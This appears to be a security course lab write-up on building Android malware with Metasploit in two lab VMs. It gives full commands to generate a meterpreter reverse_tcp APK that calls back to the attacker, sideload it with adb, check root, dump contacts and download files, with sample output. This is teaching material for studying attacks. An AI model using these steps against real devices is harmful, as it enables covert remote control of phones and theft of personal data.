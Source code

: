 # Lab 7: Developing Mobile Malware

## Set-up

Set up two VMs, keep the attacker and victim machine within the same subnet.

`````{tabbed} Attacker: Ubuntu

IP address: `10.0.2.15`

Install [Metasploit](https://www.metasploit.com/) Module


```sh
$ curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall
$ chmod 755 msfinstall
$ ./msfinstall
```

Install `adb` to send `.apk` files to the android VM

```
$ sudo apt install adb
```

`````

`````{tabbed} Victim: Android

IP address: `10.0.2.11`

Run an Android virtual machine as [what seed project requests to do](https://seedsecuritylabs.org/Labs_16.04/Mobile/). After the VM installed, add some entries in `Contacts` app (e.g. Name: KMR, Phone: 114-514-1919)

````{note}
The IP address of the Android VM can be obtained by running `Terminal Emulator` app and typing

```
$ ifconfig
```

````
`````


## Explore Metasploits [^ex]

```
$ msfconsole
msf >  search type:payload platform:android
```

Create a reversed TCP

```
msf > msfvenom -p android/meterpreter/reverse_tcp LHOST=10.0.2.15 LPORT=4444 -f raw -o reverse_tcp.apk
```

Start a handler:

```
msf > use exploit/multi/handler
msf > set payload android/meterpreter/reverse_tcp
msf > set lhost 10.0.2.15
msf > set lport 4444
msf > exploit
```

Send the `reverse_tcp.apk` to the vicitm machine and install it:

```
$ adb connect 10.0.2.11
$ adb install reverse_tcp.apk
```

From the victim Android, we start the installed app `MainActivity`

![](victim.png)

```{warning}
No obvious response after double-clicking, but actually it is running in the backgroud.
```

Then we can see the session information from the attacker VM:

![Connected successfully](session.png)

Press <kbd>Enter</kbd> and go into the `meterpreter` console.

### Basic Commands

Check if the device is rooted

```
meterpreter > check_root
```

See the current directory where you are

```
meterpreter > pwd
/data/user/0/com.metasploit.stage/files
```

Dump all contacts

```
meterpreter > dump_contacts
[*] Fetching 3 contacts into list
[*] Contacts list saved to: contacts_dump_20210527000741.txt
```

Let's check it:

![Dump all contacts information from the victim Android](contacts.png)

````{seealso}
More commands can be found by:

```
meterpreter > help
```

Or see the [Metasploit Cheat Sheet](https://pentestmag.com/metasploit-cheat-sheet/)
````

[^ex]: https://www.hackers-arise.com/post/2018/07/06/metasploit-basics-part-13-exploiting-android-mobile-devices



## Task: steal sensitive files

For example, get the DNS configurations on the victim mobile:

```
meterpreter > cat /etc/hosts
127.0.0.1       localhost
::1             ip6-localhost
```

Download it to the attacker machine

```
meterpreter > download /etc/hosts
```


